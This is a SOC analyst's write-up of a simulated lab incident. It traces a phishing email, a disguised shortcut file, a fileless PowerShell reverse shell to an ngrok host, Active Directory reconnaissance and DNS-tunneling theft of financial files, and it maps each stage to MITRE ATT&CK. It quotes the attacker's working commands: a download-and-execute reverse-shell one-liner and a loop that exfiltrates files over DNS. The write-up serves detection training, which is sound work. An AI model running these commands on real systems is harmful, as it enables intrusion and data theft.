










# SOC Incident Investigation: Phishing Email to Financial Data Exfiltration

A real-time SOC alert-triage simulation. What started as a single low-priority
"suspicious attachment" ticket was traced through log correlation into a complete,
nine-stage compromise — ending in the exfiltration of financial records from a
named corporate file server. This write-up documents the full investigation:
what was triaged as noise, what was escalated, and how each piece of evidence
connected to the next.

---

## Executive Summary

| | |
|---|---|
| **Trigger** | Low-severity "Suspicious Attachment" email alert (#1005) |
| **Affected host** | win-3450 |
| **Affected user** | michael.ascot |
| **Root cause** | Phishing email → malicious `.lnk` file → fileless PowerShell reverse shell |
| **Impact** | Personal credentials + confidential corporate financial/investor documents exfiltrated via DNS tunneling |
| **Final severity** | Critical |

Roughly a dozen additional alerts were triaged during this investigation — spam
campaigns, benign Windows system processes, and one unrelated mailbox anomaly.
Correctly separating that noise from the real incident was as much a part of this
investigation as the incident itself (see [Alert Triage Summary](#alert-triage-summary)
below).

---

## Attack Timeline

| Time | MITRE ATT&CK Stage | Event |
|------|---------------------|-------|
| 20:24:37 | Initial Access | Phishing email: "FINAL NOTICE: Overdue Payment," urgency social engineering, `.zip` attachment |
| 20:44:44 | — | Attachment saved to disk via Outlook |
| 20:44:55 | Execution | Archive extracted, revealing `invioce.pdf.lnk` — double-extension disguise (fake PDF, real Windows Shortcut) |
| 20:44:58–59 | Execution / C2 | Fileless PowerShell: `IEX` + `DownloadString` fetches and runs `powercat.ps1` in memory |
| 20:44:59 | Command and Control | Reverse shell established to `2.tcp.ngrok.io:19282` |
| 20:45:12–34 | Discovery (local) | `systeminfo`, `whoami`, `whoami /priv`, `net user` |
| 20:46:20–56 | Discovery (domain) | `PowerView.ps1` downloaded **and executed** — LDAP-based Active Directory enumeration, testing reachability of domain computers |
| 20:48:15 | Collection (target ID) | `net use Z: \\FILESRV-01\SSF-FinancialRecords` — financial records share mapped |
| 20:48:49 | Collection | `Robocopy` bulk-copies share contents into a local staging folder |
| 20:49:13 | Defense Evasion | `net use Z: /delete` — anti-forensic cleanup of the drive mapping |
| 20:50:00–16 | Exfiltration | Multiple files exfiltrated via DNS tunneling (Base64-encoded, chunked, sent as subdomains) to `haz4rdw4re.io` |

---

## Stage-by-Stage Investigation

### 1. Initial Access — The Phishing Email

Alert #1005 (Low severity) reported a "FINAL NOTICE" email with urgency-based social
engineering (30-day suspension threat, legal-action language) and a `.zip`
attachment. Low severity notwithstanding, urgency + attachment is a combination
worth following up on directly.



### 2. Execution — The Disguised Shortcut

Searching for the attachment's activity showed Outlook writing the file to disk,
followed by Explorer extracting it — revealing a file named `invioce.pdf.lnk`.
The double extension is the key detail: it displays as a harmless PDF but is
actually a Windows Shortcut capable of executing arbitrary commands.




### 3. Command and Control — Fileless Reverse Shell

The `.lnk` triggered a single PowerShell one-liner that defines the entire attack's
foothold:

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 2.tcp.ngrok.io -p 19282 -e powershell
```

- `IEX` + `DownloadString` downloads and executes a script **directly in memory** —
  a fileless technique that avoids writing a payload to disk for AV to scan.
- `powercat.ps1` is a publicly available PowerShell netcat-style tool.
- The payload connects out to `2.tcp.ngrok.io:19282` and pipes an interactive
  PowerShell session through it — a live reverse shell.
- **ngrok** is a legitimate tunneling service, abused here specifically because it's
  a trusted domain that blends into normal traffic.



Every subsequent action in this incident traces back to this exact PowerShell
session (PID 3728) — the single thread connecting every remaining stage.

### 4. Discovery — Local Host, then the Domain

Immediately after establishing the shell, the attacker ran local reconnaissance —
all spawned directly from `powershell.exe`:

```
systeminfo.exe
whoami.exe
whoami.exe /priv
net.exe user
```




The attacker then escalated reconnaissance from the local host to the entire
Active Directory domain, downloading **PowerView.ps1** (part of the PowerSploit
offensive toolkit) and — critically — **executing** it. Script-block logging
captured the actual LDAP enumeration logic in progress: querying AD for computer
objects and testing network reachability of each (`Test-Connection` against
`dnshostname`).


This domain-wide reconnaissance directly precedes the next stage — strongly
suggesting the attacker used it to locate the specific file server targeted next.

### 5. Collection — Targeting the Financial Records Server

The same PowerShell session mapped a network drive to a specifically named,
sensitive share:

```
net use Z: \\FILESRV-01\SSF-FinancialRecords
```


This is a deliberate, targeted action — not opportunistic local file access. The
attacker then used **Robocopy** to recursively copy the share's entire contents
into a local staging folder:

```
Robocopy.exe . C:\Users\michael.ascot\downloads\exfiltration /E
```



Files staged included `ClientPortfolioSummary.xlsx` and `InvestorPresentation2023.pptx`
— confidential business and client data, not personal files.


Immediately after staging completed, the attacker deleted the drive mapping
(`net use Z: /delete`) — anti-forensic cleanup intended to obscure evidence of the
share access.

### 6. Exfiltration — DNS Tunneling

With sensitive files staged, the attacker exfiltrated them using **DNS tunneling**
— a technique that abuses the fact that outbound DNS traffic is almost universally
permitted, even in restrictive network environments:

```powershell
$base64 = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\michael.ascot\Downloads\BitcoinWalletPasscodes.txt"))
$base64 -split '(.{1,30})' | Where-Object { $_ -ne '' } | ForEach-Object {
    Invoke-Expression "nslookup $_.haz4rdw4re.io"
}
```

Each file was read, Base64-encoded, split into 30-character chunks, and each chunk
sent as a subdomain query to an attacker-controlled domain (`haz4rdw4re.io`) — the
DNS responses reassembled client-side by the attacker's own DNS infrastructure.





Decoding several of the exfiltrated chunks confirmed **at least three separate
files** were stolen this way: `BitcoinWalletPasscodes.txt`, and the two staged
corporate documents (`ClientPortfolioSummary.xlsx`, `InvestorPresentation2023.pptx`)
— the latter confirmed by its ZIP file-signature bytes (`PK\x03\x04`), since
modern Office files are ZIP containers internally.

---

## Alert Triage Summary

Roughly a dozen other alerts arrived during this window. Correctly triaging them —
without either escalating harmless noise or missing something real — was part of
the investigation:

| Category | Examples | Disposition |
|----------|----------|-------------|
| Spam / low-sophistication phishing | Recurring "prize/inheritance/work-from-home" template from multiple lookalike domains | True Positive, not escalated — no attachment/link, correctly triaged as low-priority |
| Benign Windows system activity | `TrustedInstaller.exe`, `rdpclip.exe`, `WUDFHost.exe`, `taskhostw.exe` (KEYROAMING/NGCKeyPregen) across multiple unrelated hosts | False Positive — legitimate parent-child relationships, standard paths, unrelated to win-3450 |
| Detection rule defect identified | Two separate alerts fired on standard `gmail.com` senders under a rule intended to flag "unusual top-level domains" | Reported as a rule-logic defect (matching content keywords, not actual domain reputation) |
| Separate anomaly (not part of this incident) | `support@tryhatme.com` found auto-forwarding inbound spam to external addresses | Escalated separately — investigated as a possible misconfigured mail rule or secondary account compromise |

---

## Key Takeaways

- **Severity labels are a starting point, not a verdict.** This entire incident
  began as a "Low" severity alert; the PowerView-execution finding was also
  initially auto-rated "Low" despite being a strong lateral-movement indicator.
  Analyst judgment matters.
- **One process ID tied the entire kill chain together.** Every stage after the
  initial reverse shell — discovery, domain enumeration, collection, cleanup,
  exfiltration — ran through the same PowerShell session (PID 3728), which made
  correlating disparate alerts into one incident possible.
- **Fileless and living-off-the-land techniques evade naive detection.** No
  custom malware binary was ever written to disk for the initial foothold — a
  public tool downloaded and run entirely in memory, using a legitimate tunneling
  service for C2.
- **Triage volume matters as much as the big find.** A large share of this queue
  was noise; efficiently and correctly closing it out is what created the space to
  properly investigate the one alert that mattered.

## Tools & Concepts Demonstrated

`SIEM log correlation (Splunk)` · `Sysmon event analysis` · `PowerShell script-block
logging` · `MITRE ATT&CK mapping` · `Fileless malware / living-off-the-land
detection` · `DNS tunneling exfiltration analysis` · `Active Directory
reconnaissance (PowerView/LDAP)` · `Alert triage & false-positive reduction`

---

*Based on a TryHackMe SOC simulation lab. Documented for learning and portfolio
purposes — analysis and reasoning only, no flags or solution keys.*
